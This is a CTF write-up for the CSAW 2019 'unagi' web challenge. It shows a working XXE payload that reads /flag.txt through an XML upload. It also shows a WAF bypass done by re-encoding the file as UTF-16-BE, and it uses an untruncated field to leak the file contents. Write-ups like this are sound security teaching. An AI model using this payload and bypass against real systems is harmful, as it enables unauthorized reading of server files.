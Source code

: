 # unagi (200 pts)

> come get me
> http://web.chal.csaw.io:1003

Upon visiting the web page, we are presented with a navbar containing 
> Home | User | Upload | About

We are able to learn that the webserver is running Apache + PHP through basic observation. (Links contain .php, Server included in response headers)

For `User`, the contents are

```
Name: Alice
Email: alice@fakesite.com
Group: CSAW2019
Intro: Alice is cool

Name: Bob
Email: bob@fakesite.com
Group: CSAW2019
Intro: Bob is cool too
```


For `Upload`, we are given a _`sample.xml`_ and an option to upload our own xml. The contents of _`sample.xml`_ are as follows:

```xml
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
</users>
```

Interestingly, there is no `<intro></intro>` element as shown in the `User` page. When we copy the sample verbatim and upload it, we get an output of
```
Name: Alice
Email: alice@fakesite.com
Group: CSAW2019

Name: Bob
Email: bob@fakesite.com
Group: CSAW2019
```

So lets try a basic XXE injection with PHP wrapper using `<!DOCTYPE user [<!ENTITY flag SYSTEM "file:///flag.txt">]>` . This time we get a message saying `WAF blocked file upload` or something amongst those lines.

Upon googling around, I came upon [this article](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0). According to method 3, some WAF may not be able to parse different encodings. So we try to save our file as `UTF-16-BE` in any code editor (VSCode in my case) and upload it. 

The upload works, and the injection succeeds however we can only see 20 `A`'s. Apparently the output truncated. After wasting huge amount of time, I remembered about the `<intro></intro>` element. Apparently it is not truncated so we use it to get our flag.

Solution (saved in `UTF-16-BE` encoding):
```xml
<!DOCTYPE user [ <!ENTITY flag SYSTEM "file:///flag.txt">]>
<users>
    <user>
        <name>name</name>
        <email>email</email>
        <group>group</group>
        <intro>&flag;</intro>
    </user>
</users>

<!-- flag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts} -->
```